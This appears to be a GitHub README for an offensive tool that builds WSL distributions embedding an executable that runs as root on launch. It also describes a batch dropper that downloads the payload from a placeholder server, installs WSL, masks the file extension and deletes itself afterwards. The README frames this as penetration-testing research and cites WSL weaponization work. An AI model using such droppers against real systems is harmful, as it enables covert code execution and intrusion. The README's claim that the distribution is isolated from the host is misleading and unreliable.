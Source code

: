 # WSL Payload Builder
## Overview
A shell script for creating minimal WSL (Windows Subsystem for Linux) distributions with embedded payloads. This tool automates the process of building Alpine Linux-based WSL distributions that can execute custom payloads upon launch.

The `Build_WSL_Payload.sh` script downloads the latest Alpine Linux rootfs, customizes it for WSL use, embeds a user-specified executable, and packages everything into a distributable `.wsl` file. 

The `payload.bat` will download the WSL config file from the provided URL and launch it **(will install wsl if not present and admin rights are available)**

This is particularly useful for penetration testing, security research, and custom WSL environment creation.

## Usage

### Building Payloads (Linux/macOS/Windows(WSL))
#### Arguments

- **`-N, --name`**: Specify the default distribution name for WSL
- **`-P, --payload`**: Specify the path to the payload executable file
- **`-H, --help`**: Display the help menu

#### Examples

```bash
# Build a WSL distribution named "CalcWSL" with a custom payload
./Build_WSL_Payload.sh -N CalcWSL -P ./Calc.exe
```
### Running Payloads (Windows)

#### Basic Usage

Option 1.
**Double-Click** - Double clicking the WSL file will execute the payload but will also open a cmd prompt that must be closed manually. (Not recommended)

Option 2.
**Use the payload.bat file**

```cmd
C:\Users\USER_NAME> .\payload.bat
```

#### What it does

The `payload.bat` script automatically:

1. **Downloads** the WSL payload file from a configured URL
2. **Checks** if WSL is already installed on the system
3. **Installs** WSL if not present (requires administrator privileges)
4. **Installs** the downloaded WSL distribution
5. **Cleans up** by removing the distribution and itself after execution.

#### Requirements

- **Windows 10/11** with WSL support
- **Administrator privileges** (if WSL is not already installed)
- **Internet connection** to download the payload file if using the .bat script

#### Configuration

Edit the variables at the top of `payload.bat` to customize:

```batch
set "DOWNLOAD_URL=https://your-server.com/payload.wsl"
set "WSL_FILE=payload.log" # Still testing but can use most file extensions here. 
```

## Security Considerations

- **Payload Execution**: The embedded payload runs with root privileges when the WSL distribution is launched
- **File Permissions**: All executable files are properly set with appropriate permissions
- **Isolation**: The generated WSL distribution is isolated from the host system

## License
MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer

This tool is intended for legitimate security research and penetration testing. Users are responsible for ensuring they have proper authorization before testing systems they do not own or have explicit permission to test.

## References

This project was inspired by and builds upon the research and techniques documented in the [dmcxblue/WSL-Payloads](https://github.com/dmcxblue/WSL-Payloads) repository, which provides valuable insights into WSL file format weaponization and security research.
